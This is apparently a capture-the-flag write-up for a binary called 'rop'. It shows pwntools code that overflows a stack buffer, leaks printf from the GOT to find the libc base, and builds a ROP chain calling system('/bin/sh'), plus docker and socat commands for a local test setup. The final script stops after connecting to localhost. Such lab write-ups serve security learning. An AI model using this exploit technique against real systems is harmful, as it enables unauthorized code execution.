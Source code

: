 The idea is overflow the return address and execute a ROP that will spawn a shell.
In order to have more gadgets we want to leak the libc base address since the target is not PIE but libc is!

To do so we create a simple rop that leak the `printf` address from the ELF GOT table.
From there we can then compute the offset to the libc base address.

```py
fill_up_buffer = "a" * 128 + "b" * 8

p.sendline("1234")

rop = ROP(elf)
rop.raw(fill_up_buffer)
# lets write printf@GOT to stdout
rop.puts(elf.got["printf"])
# we return to main so we can continue with our exploit chain
rop.call(elf.entry)
p.sendline(rop.chain())
p.recvuntil("feedback.\n")

packed_printf_address = p.recvline()[:-1]
printf_address = unpack(packed_printf_address.ljust(8, b"\x00"))
libc.address = printf_address - libc.symbols["printf"]
```

Once we have the base, we can simply ask for the shell.
```py
p.sendline("1234")
rop = ROP(libc)
rop.raw(fill_up_buffer)
rop.system(next(libc.search(b'/bin/sh')))
p.sendline(rop.chain())
```

## Final Exploit

To test the exploit we used a docker ubuntu:16.04 image so that we could preload the provided `libc-2.23.so`.
```
docker run -ti -p 1337:1337 -p 23946:23946 --name pwn -v /home/kali/Desktop/pancake:/pancake ubuntu:16.04
```

On the docker we used socat to expose the CLI to the outside:
```
LD_PRELOAD=/pancake/libc-2.23.so socat tcp-listen:1337,fork exec:/pancake/rop
```

Here the final python code:

```py
from pwn import *
import struct
import sys

LOCAL_LIBC_PATH = "/home/kali/Desktop/pancake/libc-2.23.so"

elf = ELF("rop")
libc = ELF(LOCAL_LIBC_PATH)
context.binary = elf

#context.update(arch='i386', os='linux')

#p = process("/home/kali/Desktop/pancake/rop")

p = remote('127.0.0.1',1337)

```